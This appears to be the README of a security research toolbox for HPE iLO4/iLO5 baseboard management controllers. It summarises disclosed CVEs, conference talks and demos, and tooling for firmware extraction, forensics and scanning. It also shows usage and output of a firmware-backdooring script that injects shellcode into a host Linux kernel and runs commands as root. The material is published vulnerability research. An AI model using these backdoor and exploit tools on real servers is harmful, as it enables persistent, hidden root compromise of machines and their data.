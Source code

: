 Subverting your server through its BMC: the HPE iLO4 case
=========================================================


Introduction
------------

``iLO`` is the server management solution embedded in almost every ``HPE``
servers for more than 10 years. It provides every feature required by a system
administrator to remotely manage a server without having to reach it
physically. Such features include power management, remote system console,
remote CD/DVD image mounting, as well as many monitoring indicators.

We've performed a deep dive security study of ``HPE iLO4`` (known to be used on
the family of servers ``HPE ProLiant Gen8`` and ``ProLiant Gen9`` servers) and
the results of this study were presented at the **REcon** conference held in
Brussels (February 2 - 4, 2018, see [1]_).

A follow-up of our study was presented at the **SSTIC** conference, held in
France (Rennes, June 13 - 15, 2018, see [8]_). We focused this talk on
firmware backdooring and achieving long-term persistence.

In November 2018, we presented our latest research on ``HPE iLO4`` and
``iLO5`` at **ZeroNights** conference, held in Saint-Petersburg, Russia
(November 20 - 21, 2018, see [11]_). This talk was focused on the attack
surface exposed to the host operating system and on the new secure boot
feature (silicon root of trust) introduced with ``iLO5``.

``iLO4`` runs on a dedicated ``ARM`` processor embedded in the server,
and is totally independent from the main processor. It has a dedicated flash
chip to hold its firmware, a dedicated RAM chip and a dedicated network
interface. On the software side, the operating system is the proprietary RTOS
GreenHills Integrity [2]_.


Results
-------

One critical vulnerability was identified and reported to the ``HPE PSRT`` in
February 2017, known as ``CVE-2017-12542`` (``CVSSv3`` base score 9.8 [3]_) :

* Authentication bypass and remote code execution
* Fixed in ``iLO4`` versions ``2.53`` (released in May 2017, buggy) and ``2.54`` [4]_


A second critical vulnerability was identified in  ``iLO4`` and  ``iLO5`` . It
was reported to the ``HPE PSRT`` in April 2018 and is known as
``CVE-2018-7078`` (``CVSSv3`` base score 7.2 [9]_, ``HPE`` Security Bulletin
``HPESBHF03844`` [10]_) :

* Remote or local code execution
* Fixed in ``iLO4`` version ``2.60`` (released in May 2018)
* Fixed in ``iLO5`` version ``1.30`` (released in June 2018)


A critical vulnerability was identified in the implementation of the
secure boot feature of ``iLO5``. It was reported to the ``HPE PSRT`` in
September 2018 and is known as ``CVE-2018-7113`` (``CVSSv3`` base score 6.4 [12]_,
``HPE`` Security Bulletin ``HPESBHF03894`` [13]_):

* Local Bypass of Security Restrictions
* Fixed in ``iLO5`` version ``1.37`` (released in October 2018)


Finally another critical vulnerability allowing host to iLO arbitrary code
execution was reported to ``HPE`` in Feb 2021 and is known as
``CVE-2021-29202`` (``CVSSv3`` base score 6.4, ``HPE`` Security Bulletins
``HPESBHF04121`` [19]_ and ``HPESBHF04133`` [20]_). It impacts ``iLO4`` and
``iLO5``.


Slides and demos
----------------

REcon Brussels 2018
*******************

The slides from our **REcon** talk are available here_ . They cover the
following points:

* Firmware unpacking and memory space understanding
* GreenHills OS Integrity internals:

    * kernel object model
    * virtual memory
    * process isolation

* Review of exposed attack surface: ``www``, ``ssh``, *etc.*
* Vulnerability discovery and exploitation
* Demonstration of a new exploitation technique that allows to
  compromise the host server operating system through DMA.


To illustrate them, we also release the three demos as videos. The first one
demonstrates the use of the vulnerability we discovered to bypass the
authentication from the RedFish API:


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo1_connection_bypass.gif
    :width: 100%
    :align: center

In the second one we show how the vulnerability can also be turned into an
arbitrary remote code execution (``RCE``) in the process of the web server;
allowing read access to the ``iLO`` file-system for example.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo2_dump_users.gif
    :width: 100%
    :align: center

Finally, in  the third videos, we leverage this ``RCE`` to exploit an ``iLO4``
feature which allows us to access (``RW``) to the host memory and inject a
payload in the host Linux kernel.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo3_host_pwn.gif
    :width: 100%
    :align: center


SSTIC 2018
**********

The slides from our **SSTIC** talk are available at this location_ (more
details can be found in the paper_). After a brief recap of our **REcon**
talk, we propose the following new materials:

* Firmware security and boot chain analysis
* Backdoor architecture

To illustrate these works, we release a new demo as video. It demonstrates
the use of the vulnerability we discovered in the web server to flash a new
backdoored firmware. Then we demonstrate the use of the DMA communication
channel to execute arbitrary commands on the host system.

.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo4_backdoor.gif
    :width: 100%
    :align: center


ZeroNights 2018
***************

The material we presented at **ZeroNights** is available from there_. It
contains two major contributions.

First, an analysis of the communication channel between the host system and
the ``iLO`` (``4`` or ``5``), known as ``CHIF`` channel interface. It opens a
new attack surface,  exposed to the host (even though ``iLO`` is set as
disabled). We demonstrated that the exploitation of ``CVE-2018-7078`` could
allow us to flash a backdoored firmware from the host through this interface.

Then, an in-depth review of the new secure boot feature introduced with
``iLO5`` and ``HPE Gen10`` server line. It covers the complete bootchain, from
the ``iLO ASIC`` (silicon root of trust) down to the ``Integrity`` kernel and
userland images. We discovered a logic error (``CVE-2018-7113``) in the kernel
code responsible for the integrity verification of the userland image, which
can be exploited to break the chain-of-trust.

To illustrate this defeat of the secure boot feature, we propose the new video
below. It demonstrates the exploitation of the logic error to update the
``iLO5`` firmware with a compromised firmware embedding a backdoored userland
image in which the banner of the ``SSH`` server has been altered.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo5_secure_boot.gif
    :width: 100%
    :align: center


A proof of concept implementing the secure boot bypass alone is available in
``ilo5_PoC_secure_boot_bypass.py``. The ``fum`` vulnerability and ``HP Signed File``
signature bypass is demonstrated in ``ilo5_PoC_fum_sig_bypass.py``.



Insomni’Hack 2019
*****************

The slides from our talk at **Insomni’Hack**, available from this link_,
intend to wrap-up most of our work on the ``iLO 4`` and  ``5`` systems.

A brief analysis of the anti-downgrade feature is introduced, as well as a
teaser on the whitepaper_ we published in collaboration with Adrien Guinet
(from Quarkslab) on *How to defeat NotPetya from your iLO4*.



SSTIC 2021
**********

In this new iteration of our work, presented at SSTIC (paper [17]_ and slides
[18]_), we propose an extensive analysis of the new firmware encryption
mechanism introduced with HPE iLO5 firmware versions 2.x. The new boot chain,
as well as the cryptographic co-processor this feature relies upon are
presented, as well as our attack to extract the encryption keys from the
system-on-chip(SOC).






Related works
-------------

A critical vulnerability was identified by Nicolas Iooss from The French
National Cybersecurity Agency (ANSSI) in the ``SSH`` service of ``iLO3``,
``iLO4`` and  ``iLO5`` . It was reported to the ``HPE PSRT`` in April 2018 and
is known as ``CVE-2018-7105`` (``CVSSv3`` base score 7.2 [14]_, ``HPE``
Security Bulletin ``HPESBHF03866`` [15]_) :

* Remote execution of arbitrary code, local disclosure of sensitive information
* Fixed in ``iLO3`` version ``1.90`` (released in August 2018)
* Fixed in ``iLO4`` version ``2.61`` (released in September 2018)
* Fixed in ``iLO5`` version ``1.35`` (released in August 2018)

Thank you Nicolas for sharing test and exploitation scripts for this issue.

Using this vulnerability it is also possible to play with ``PCILeech`` on
``HP iLO4`` without the need for a modified firmware. Although very slow for
a big memory dump, it works very well when targeting specific memory location, as
done by the Windows KMD load in ``PCILeech``. See the ``PCILeech HP iLO4
Service`` repository [16]_.


Tooling
-------

To support our research we've developed scripts and tools to help us
automatize some tasks, especially firmware unpacking and mapping.


Firmware
********

``ilo4_extract.py`` script takes an ``HP Signed file`` as input (obtained from
the update package). It is invoked with:

::

    >python ilo4_extract.py ilo4_244.bin extract


Extract from the output log:

::

    [+] iLO Header 0: iLO4 v 2.44.7 19-Jul-2016
      > magic              : iLO4
      > build_version      :  v 2.44.7 19-Jul-2016
      > type               : 0x08
      > compression_type   : 0x1000
      > field_24           : 0xaf8
      > field_28           : 0x105f57
      > decompressed_size  : 0x16802e0
      > raw_size           : 0xd0ead3
      > load_address       : 0xffffffff
      > field_38           : 0x0
      > field_3C           : 0xffffffff
      > signature


From the extracted file, ``ilo0.bin`` is the ``Integrity`` applicative image
(userland). It contains all the tasks that will run on the ``iLO`` system. To
parse each of these tasks and generate the ``IDA Pro`` loading script, one can
use the script ``dissection.rb``.

It relies upon the ``Metasm`` framework [5]_ and also requires the ``Bindata``
library [6]_.

::

    >ruby dissection.rb ilo0.bin


Back to the kernel image, ``ilo4_extract.py`` told us that:

::

    [+] iLO Header 1: iLO4 v 0.8.36 16-Nov-2015
      > magic              : iLO4
      > build_version      :  v 0.8.36 16-Nov-2015
      > type               : 0x02
      > compression_type   : 0x1000
      > field_24           : 0x9fd
      > field_28           : 0x100344
      > decompressed_size  : 0xc0438
      > raw_size           : 0x75dad
      > load_address       : 0x20001000
      > field_38           : 0x0
      > field_3C           : 0xffffffff

Using ``IDA Pro`` to load the extracted file ``ilo1.bin`` at ``0x20001000`` as
``ARM`` code, one can also study the ``Integrity`` kernel.


* ``secinfo4.py`` parses the section information embedded into the kernel image
  and creates the appropriate memory segment in the disassembler
* ``parse_mr.py`` dumps the registered ``Memory Region`` objects


``iLO5`` format differs slightly but is supported as well. ``ilo5_extract.py``
and  ``dissection.rb`` scripts can be used in the same way as for ``iLO4`` to
extract the ``Integrity`` applicative image.


Firmware backdooring
********************

The ``insert_backdoor.sh`` script can be run on a legitimate firmware file to
add a backdoor in the webserver module. The backdoor can then be used using
the ``backdoor_client.py`` script.

::

    >./insert_backdoor.sh ilo4_250.bin
    [...]
    [+] Firmware ready to be flashed

    >python backdoor_client.py 192.168.42.78
    [+] iLO Backdoor found
    [-] Linux Backdoor not detected
    [...]
    >>> ib.install_linux_backdoor()
    [*] Dumping kernel...
    [+] Dumped 1000000 bytes!
    [+] Found syscall table @0xffffffff81a001c0
    [+] Found sys_read @0xffffffff8121e510
    [+] Found call_usermodehelper @0xffffffff81098520
    [+] Found serial8250_do_pm @0xffffffff81528760
    [+] Found kthread_create_on_node @0xffffffff810a2000
    [+] Found wake_up_process @0xffffffff810ad860
    [+] Found __kmalloc @0xffffffff811f8c50
    [+] Found slow_virt_to_phys @0xffffffff8106c6a0
    [+] Found msleep @0xffffffff810f0050
    [+] Found strcat @0xffffffff8140c9c0
    [+] Found kernel_read_file_from_path @0xffffffff812236e0
    [+] Found vfree @0xffffffff811d7f90
    [+] Shellcode written
    [+] iLO Backdoor found
    [+] Linux Backdoor found
    >>> ib.cmd("/usr/bin/id")
    [+] Found shared memory page! 0xeab00000 / 0xffff8800eab00000
    uid=0(root) gid=0(root) groups=0(root)


Forensics
*********

The ``exploit_check_flash.py`` script can be run against an instance of ``HP
iLO4`` vulnerable to ``CVE-2017-12542``. Its purpose it to dump the content of
the flash and then compare its digest with a known "good" value.

::

    >python exploit_check_flash.py 192.168.42.78 250


Network
*******

Finally, to help people scan for existing vulnerable ``iLO`` systems exposed in
their own infrastructures, we release a simple ``Go`` scanner. It attempts to
fetch a special ``iLO`` page:  ``/xmldata?item=ALL``; if it exists, then it
extracts the firmware version and HP server type.


First edit the "``targets``" variable in the code and specify the internal
``IP`` ranges you want to scan.

::

   var (
        targets = []string{
                "10.0.0.0/8",
                "192.168.66.0/23",
                "172.16.133.0/24"}
   )


Then compile the code for your OS/architecture.

::

    > env GOOS=target-OS GOARCH=target-architecture go build iloscan.go


For example:

::

    > env GOOS=openbsd GOARCH=amd64 go build iloscan.go
    > ./iloscan

Then look the result in ``/tmp/iloscan.log`` (can be changed in the source):

::

    > less /tmp/iloscan.log
    192.168.66.69{{ RIMP} [{{ HSI} ProLiant DL380 G7}] [{{ MP} 1.80 ILOCZ2069K2S4       ILO583970CZ2069K2S4}]}

Alternatively, you can invoke the binary with a subnet on the command line (individual IP addresses should be specified as a /32 netmask):

::

    > ./iloscan 1.2.3.4/32
    Generated 1.2.3.4
    Fetching 1.2.3.4
    1.2.3.4 status: 200 OK
    {{ RIMP} [{{ HSI} ProLiant DL380 Gen9}] [{{ MP} 2.40 ILOCZJ641057H ILO826683CZJ641057H}]}


Authors
-------

* Fabien PERIGAUD - ``fabien [dot] perigaud [at] synacktiv [dot] com`` - ``@0xf4b``
* Alexandre GAZET - ``alexandre [dot] gazet [at] airbus [dot] com``
* Joffrey CZARNY  - ``snorky [at] insomnihack [dot] net`` - ``@\_Sn0rkY``



License
-------

The scripts and scanner are released under the [GPLv2]_.



References
----------

.. [1] https://recon.cx/2018/brussels/talks/subvert_server_bmc.html
.. [2] https://www.ghs.com/products/rtos/integrity.html
.. [3] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12542
.. [4] http://h20565.www2.hpe.com/hpsc/doc/public/display?docId=hpesbhf03769en_us
.. [5] https://github.com/jjyg/metasm
.. [6] https://github.com/dmendel/bindata
.. [8] https://www.sstic.org/2018/presentation/backdooring_your_server_through_its_bmc_the_hpe_ilo4_case/
.. [9] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7078
.. [10] https://support.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03844en_us
.. [11] https://2018.zeronights.ru/en/reports/turning-your-bmc-into-a-revolving-door/
.. [12] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7113
.. [13] https://support.hpe.com/hpsc/doc/public/display?docId=hpesbhf03894en_us
.. [14] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7105
.. [15] https://support.hpe.com/hpsc/doc/public/display?docId=hpesbhf03866en_us
.. [16] https://github.com/Synacktiv/pcileech_hpilo4_service
.. [17] https://airbus-seclab.github.io/ilo/SSTIC2021-Article-hpe_ilo_5_security_go_home_cryptoprocessor_youre_drunk-gazet_perigaud_czarny.pdf
.. [18] https://airbus-seclab.github.io/ilo/SSTIC2021-Slides-hpe_ilo_5_security_go_home_cryptoprocessor_youre_drunk-gazet_perigaud_czarny.pdf
.. [19] https://support.hpe.com/hpesc/public/docDisplay?docId=hpesbhf04121en_us
.. [20] https://support.hpe.com/hpesc/public/docDisplay?docId=hpesbhf04133en_us
.. [GPLv2] https://github.com/airbus-seclab/ilo4_toolbox/blob/master/COPYING
.. _here: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/RECONBRX2018-Slides-Subverting_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _location: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/SSTIC2018-Slides-EN-Backdooring_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _paper: https://airbus-seclab.github.io/ilo/SSTIC2018-Article-subverting_your_server_through_its_bmc_the_hpe_ilo4_case-gazet_perigaud_czarny.pdf
.. _there: https://airbus-seclab.github.io/ilo/ZERONIGHTS2018-Slides-EN-Turning_your_BMC_into_a_revolving_door-perigaud-gazet-czarny.pdf
.. _link: https://airbus-seclab.github.io/ilo/INSOMNIHACK2019-Slides-Riding_the_lightning_iLO4_5_BMC_security_wrapup-perigaud-gazet-czarny.pdf
.. _whitepaper: https://airbus-seclab.github.io/ilo/Whitepaper-Defeating_NotPetya_from_your_iLO4-guinet-perigaud-gazet-czarny.pdf

